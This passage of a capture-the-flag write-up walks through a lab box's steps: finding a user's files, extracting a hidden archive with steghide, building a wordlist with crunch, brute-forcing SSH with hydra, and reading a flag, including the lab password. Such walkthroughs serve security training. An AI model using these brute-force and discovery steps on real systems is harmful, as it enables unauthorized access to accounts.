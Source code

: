 [SCREEN25]

2. Since the image itself doesn't contain obvious clues, let's search for additional files owned by peppermint-butler that might provide context

```Bash
find / -user peppermint-butler -type f 2>/dev/null
```

3. We discover a file at `/usr/share/xml/steg.txt` that appears to contain a password and hint for steganography with steghide

```Bash
cat /usr/share/xml/steg.txt
```

[SCREEN26]

```Bash
steghide extract -sf butler-1.jpg
```

[SCREEN27]

4. Steghide successfully extracted a password-protected zip archive. We need to find the password to extract its contents. Let's look for additional clues

```Bash
cat /etc/php/zip.txt
```

[SCREEN28]

[SCREEN29]

5. We need to create a wordlist with possible password combinations matching the hint

```Bash
crunch 18 18 -t 'The Ice King s@@@@' > file.txt
```

[SCREEN30]

6. Now, we can use hydra to brute force SSH access using the wordlist we created and the username "gunter"
   - The password is **The Ice King sucks**

```Bash
hydra -l gunter -P file.txt ssh://IP
```

7. With these credentials, we can now log in as the gunter user and get flag4

```Bash
ssh gunter@IP
ls -a
cat flag4
```

[SCREEN32]

### Content of flag5 – format is tryhackme{\*\*\*\*\*\*\*\*\*\*\*\*}
